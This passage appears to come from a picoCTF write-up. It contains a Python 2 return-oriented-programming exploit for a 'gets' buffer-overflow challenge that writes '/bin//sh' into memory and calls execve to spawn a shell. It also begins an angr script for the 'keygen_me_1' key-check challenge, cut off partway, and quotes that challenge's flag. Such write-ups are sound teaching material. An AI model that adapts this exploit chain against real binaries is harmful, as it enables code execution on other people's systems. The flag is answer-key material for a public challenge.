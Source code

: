 ```python
#!/usr/bin/python2

import struct

'''
08048000-080e9000 r-xp 00000000 fd:02 7733285 gets
080e9000-080eb000 rw-p 000a0000 fd:02 7733285 gets
'''
base = 0x8048000
payload = 'A'*28
payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc0)	# $edx = 0x080ebda0
payload += struct.pack('<I', base + 0x701c6)	# pop eax, ret
payload += '/bin'  
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc4)	# $edx = 0x080ebda4
payload += struct.pack('<I', base + 0x701c6)	# eax = '//sh'
payload += '//sh'
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc8)	# $edx = 0x080ebda4
payload += struct.pack('<I', base + 0x1303)	# xor eax, eax; ret
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x1c9)	# pop ebx; ret
payload += struct.pack('<I', 0x080ebcc0)	# ...
payload += struct.pack('<I', base + 0x96955)	# pop ecx; ret
payload += struct.pack('<I', 0)
payload += struct.pack('<I', base + 0x2702a)	# pop edx; ret
payload += struct.pack('<I', 0)

for i in range(0xb):
	payload += struct.pack('<I', base + 0x3286f)	# inc eax

payload += struct.pack('<I', base + 0x27630)	# int 80h
payload += '\n'

print payload
```

## keygen_me_1
I probably didn't need to use `angr` for this, but it's such a fun tool that I used it anyway. I'd also never used it before so it was nice to play around with something new.

```python
#!/usr/bin/python

'''
$ ./activate 5423655448898828
Product Activated Successfully: picoCTF{k3yg3n5_4r3_s0_s1mp13_2243075891}
'''

import angr
import claripy

def main():
	proj = angr.Project('./activate', load_options={"auto_load_libs": False})
	argv1 = claripy.BVS("argv1", 0x10 * 8)
	initial_state = proj.factory.entry_state(args=["./activate", argv1]) 

```